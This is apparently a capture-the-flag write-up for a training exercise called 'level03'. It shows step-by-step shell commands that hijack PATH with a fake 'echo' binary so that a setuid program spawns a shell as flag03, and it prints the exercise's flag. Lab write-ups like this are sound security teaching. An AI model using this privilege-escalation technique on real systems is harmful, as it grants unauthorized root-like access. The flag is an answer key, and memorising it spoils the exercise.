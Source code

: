# level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. Decompile binary, see that it runs as flag03
2. Exploit env vars usage by changing $PATH
3. Create an exploit binary to be executed by the original binary
4. Execute original binary and retrieve flag

in kali: scp executable from target machine

in kali: ```/opt/retdec/bin/retdec-decompiler.py level03```

OPTION 1:

 ```PATH=/tmp:$PATH```

 ```echo /bin/sh > /tmp/echo```

 ```chmod +x /tmp/echo```

 ```./level03```

 Optional (proof that we operate as flag03): ```whoami```

 ```getflag```

 gives: qi0maab88jeaj46qoumi7maus

OPTION 2:

 ```cd /tmp```

 ```vim main.c```

 Copy-Paste exploit.c

 ```gcc main.c -o echo```

 ```~/level03```

 Optional (proof that we operate as flag03): ```whoami```

 ```getflag```

 gives: qi0maab88jeaj46qoumi7maus
